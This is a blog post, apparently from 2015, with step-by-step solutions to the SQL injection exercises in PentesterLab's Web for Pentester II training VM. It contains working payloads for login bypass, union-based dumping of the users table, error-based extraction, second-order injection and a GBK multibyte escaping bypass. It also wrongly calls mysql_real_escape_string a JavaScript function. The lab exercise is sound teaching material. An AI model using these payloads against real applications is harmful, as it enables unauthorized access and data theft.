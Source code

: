 ```yaml
---
layout: post
title: Web for Pentester II - SQL Injection
date: 2015-08-20 
author: yzh503
summary: All the solutions of SQL injection part of Web for Pentester II
categories: Web_Penetration
tags: 
 - Web penetration
 - SQL injection
---
```


##  Background 
SQL injection is a type of vulnerabilities of SQL syntax. Based on SQL commands knowledgement, you can insert your own query into the origin code to bypass the authentication page or to get sensitive information. There are a bunch of good free examples for web penetration testing in [Pentester Lab](http://pentesterlab.com). In this article, we will go through each example of SQL injection in [Web for Pentester II](https://pentesterlab.com/exercises/web_for_pentester_II). Make sure you give the VM at least 1 GB of RAM, and host-only network. OK, now open the page and get started, Using nmap or typing ifconfig in the VM to get the IP. 

##  Solutions 
### Example 1
It's pretty straightforward. Use the very basic injection technique. Type the following in the username. As the course of pentester lab stated, password is usually hashed or encrypted, so it's better to perform this in username.
{% highlight sql %}
' or 1=1 #
{% endhighlight %}
Note that assume the original query is like
{% highlight sql%}
SELECT * FROM users WHERE username='******' AND password='******'
{% endhighlight %}
single quote ' can be used to escape from string, and insert query. After we send the request, the query would be like 
{% highlight sql%}
SELECT * FROM users WHERE username='' or 1=1 # ' AND password=''
{% endhighlight %}
The WHERE clause became always true, and things after # was commented out, so then the server got a result, and we are done.


### Example 2
In this example, the number of users returned is restricted.
{% highlight sql %}
' or 1=1 LIMIT 1 #
{%endhighlight%}


### Example 3
In this example, single quotes are removed in the query, but it's still breakable by using '\'. The query will become like
{% highlight sql %}
SELECT * FROM users WHERE username='\' AND password=' or 1=1 #'
{%endhighlight%}
The second single quote is turned to a character by backslash. The actual username in the query is "\' AND password=". The string is closed by the first quote of password.

### Example 4
There is no text box, so look at the address bar. 
{% highlight sql %}
.../example4/?req=username%3d%27hacker%27
{% endhighlight  %}
Decode the url, 
{% highlight sql %}
username='hacker'
{% endhighlight %}
This gives the server a username, and this string is likely to be in WHERE clause. To confirm this, change the url to
{% highlight sql %}
.../example4/?req=username='
{% endhighlight %}
This gives you an sql query error, which shows the actual query. The entire string after "req=" is in WHERE clause. Chagne the url to this.
{% highlight sql %}
.../example4/?req=' or 1=1 #
{% endhighlight %}


### Example 5
This is a union-based SQL injection.
{%highlight sql%}
.../example5/?limit=3 union all select * from users
{%endhighlight%}


###Example 6 
Change the url to
{%highlight sql%}
.../example5/?group=username union all select * from users
{%endhighlight%}
or simple delete group
{%highlight sql%}
.../example5/?
{%endhighlight%}
This is a dump example using group by.


### Example 7
Pentester lab provides an error-pone statement, 
{%highlight sql%}
extractvalue('%3Cxml%3E',concat(%22/%22,(select%20version())))
{%endhighlight%}
but I prefer to just use a single quote here, which has the same result on web for pentester II pages.
With an error message displayed, you can easily see the structure of the query.
![msg](http://i.imgur.com/1iWLWTB.png) 
Same as example 6, delete suffix or use union-based injection to display all users.


### Example 8
Create a few users randomly first. Create a new user named the following:
{%highlight sql%}
' union all select * from users where username='whatever_you_want_to_check' #
or 
' union all select * from users where id='whichever_you_want_to_check' #
{%endhighlight%}
With this user, you may check any user you want. The vulnerability of this one is that the value coming crom database is usually seen as trustable.


### Example 9
This page uses a Javascript function  mysql_real_escape_string(), which removes any escape that you enter in. However, this function does not work properly with GBK character. with a GBK character, followed by a single quote, this quote will not be removed. Enter the following to bypass the authentication.
{%highlight sql%}
呵' or 1=1 #
{%endhighlight%}



